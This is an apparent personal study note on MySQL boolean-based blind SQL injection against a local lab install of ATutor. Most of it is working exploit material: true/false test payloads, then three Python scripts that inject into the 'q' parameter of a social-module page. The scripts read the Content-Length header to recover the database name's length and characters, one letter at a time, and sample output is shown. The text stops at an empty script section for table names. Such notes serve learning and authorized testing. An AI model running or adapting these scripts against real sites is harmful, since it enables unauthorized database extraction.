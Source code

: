## MySQL Boolean Based Blind SQLi

- Identifying the vulnerability:
> - My Opinion and experience (don't take it literally but I guess it's true (for me atleast)):
>   - Normally Boolean Based Blind SQLi can be detected by keeping an eye on `Content-Length` header when payload is introduced.
>   - A drastic change in response length when some query returns true as compared to when something returns false is a 100% sure giveaway of a vulnerability.
> - Payload
> - True  
> ```sql
> AND 1=1
> AND 1=1 AND 'a'='a'
> ```
> - False
> ```sql
> AND 1=1 and 'a'='b'
> ```

- Exploitation:
- Retrieving the length of database name
> - Keep an eye on `Content-Length`
> - Payload: to check if the database name is of length 15
> ```sql
> and (length(database())) = 15 --
> ```

> - Script:
> ```python
> import multiprocessing as mp
> import requests
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>
> def db_length(number):
>     payload = f"te')/**/or/**/(length(database()))={number}#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     content_length = int(r.headers['Content-length'])
>     if content_length > 20:
>         print(number)
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length: \n[*] Database length: ', end=' ')
>     processes = []
>     for number in range(30):
>         p = mp.Process(target=db_length, args=[number])
>         p.start()
>         processes.append(p)
>     for process in processes:
>         process.join()
>
>     
> ```
> - Output:
> ```
>  python .\atutor_dblength.py
> [*] Retreiving Database Length:
> [*] Database length: 6
> ```

- Retrieving the database name
> - We should use ASCII function coz most of the time single quotes or double quotes might cause errors or problems.
> - Refer the following to see char to ascii conversion: https://www.rapidtables.com/code/text/ascii-table.html
> - Payload
> ```sql
> and (select ascii(substring(database(),1, 1)) = 110)#
> ```

> - Script (Slow)
> ```python
> import requests
>
> def atutor_dbRetrieval():
>     target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>     i = 1
>     final_string = ""
>     prev_length = -1
>     current_length = len(final_string)
>     while prev_length < current_length:
>         for j in range(32, 256):
>             payload = f"te')/**/or/**/(select/**/ascii(substring(database(),{i},1))={j})#"
>             param = {'q': payload}
>             r = requests.get(target, param)
>             content_length = int(r.headers['Content-length'])
>             if content_length > 20:
>                 final_string += chr(j)
>                 current_length = len(final_string.strip())
>                 print(final_string)
>                 break
>         prev_length += 1
>         i += 1
>     return final_string
>
> if __name__ == "__main__":
>     print("[+] Retrieving Database name: ....")
>     print("[+] Database Version: ", atutor_dbRetrieval())
>     print("[+] Done")
> ```
> ```
> Output:
> python .\atutor_dbRetrieval.py
> [+] Retrieving Database name: ....
> a
> at
> atu
> atut
> atuto
> atutor
> [+] Database Version:  atutor
> [+] Done
> ```

> - Script (Multi-threaded and Multi-Processed)(Fast):
> ```python
> import requests
> import concurrent.futures
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
> final_string = {}
>
> def db_length(number):
>     payload = f"te')/**/or/**/(length(database()))={number}#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     content_length = int(r.headers['Content-length'])
>     if content_length > 20:
>         return number
>
>     
> def atutor_dbRetrieval(l):
>     for j in range(32, 256):
>         payload = f"te')/**/or/**/(select/**/ascii(substring(database(),{l},1))={j})#"
>         param = {'q': payload}
>         r = requests.get(target, param)
>         content_length = int(r.headers['Content-length'])
>         if content_length > 20:
>             final_string[l-1] = chr(j)
>             print(''.join(final_string[i] for i in sorted(final_string.keys())))
>             
>
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length: \n[*] Database length: ', end=' ')
>     
>     db_len = 0
>     with concurrent.futures.ProcessPoolExecutor() as executor:
>         results = [executor.submit(db_length, _) for _ in range(30)]
>         
>         for f in concurrent.futures.as_completed(results):
>             if f.result() != None:
>                 db_len = f.result()
>     print(db_len)
>         
>     print("[+] Retrieving Database name: ....")
>     with concurrent.futures.ThreadPoolExecutor() as executor:
>         results = [executor.submit(atutor_dbRetrieval, index) for index in range(db_len+1)]
>
>     print("[+] Database Name: ", end=" ")
>     print(''.join(final_string[i] for i in sorted(final_string.keys())))
>     print("[+] Done")
> ```
> ```
> Output:
> python .\atutor_dbRetrieval-fast.py
> [*] Retreiving Database Length:
> [*] Database length:  6
> [+] Retrieving Database name: ....
> a
> ao
> aor
> ator
> attor
> atutor
> [+] Database Name:  atutor
> [+] Done
> ```

- Retrieving the length of table name:
> - Payload:
> ```sql
> ' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+
> ```
> - Script:
> 
